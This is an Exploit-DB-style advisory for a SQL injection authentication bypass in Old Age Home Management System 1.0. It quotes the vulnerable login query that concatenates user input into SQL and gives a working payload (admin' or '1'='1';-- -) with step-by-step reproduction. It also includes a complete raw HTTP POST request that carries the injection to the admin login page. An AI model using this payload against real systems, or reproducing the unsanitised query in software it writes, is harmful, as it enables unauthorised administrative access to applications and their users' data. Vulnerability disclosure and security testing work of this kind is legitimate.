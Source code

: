 # Old Age Home Management System 1.0 - SQLi Authentication Bypass
original link: https://www.exploit-db.com/exploits/50966
```bash
# Exploit Title: Old Age Home Management System 1.0 - SQLi Authentication Bypass
# Date: 12/06/2022
# Exploit Author: twseptian
# Vendor Homepage: https://phpgurukul.com/old-age-home-management-system-using-php-and-mysql/
# Software Link: https://phpgurukul.com/projects/Old-Age-Home-MS-using-PHP.zip
# Version: v1.0
# Tested on: Kali Linux
```

## Vulnerable code
line 9 in file "/oahms/admin/login.php"
$ret=mysqli_query($con,"SELECT ID FROM tbladmin WHERE UserName='$username' and Password='$password'");

## Steps of reproduce:
1. Go to the admin login page http://localhost/oahms/admin/login.php
2. sqli payload:  admin' or '1'='1';-- -
3. password: password

## Proof of Concept
```bash
POST /oahms/admin/login.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 71
Origin: http://localhost
Connection: close
Referer: http://localhost/oahms/admin/login.php
Cookie: ci_session=2c1ifme2jrmeeg2nsos66he8g3m1cfgj; PHPSESSID=8vj8hke2pc1h18ek8rq8bmgiqp
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

username=admin%27+or+%271%27%3D%271%27%3B--+-&password=passwrod&submit=
```
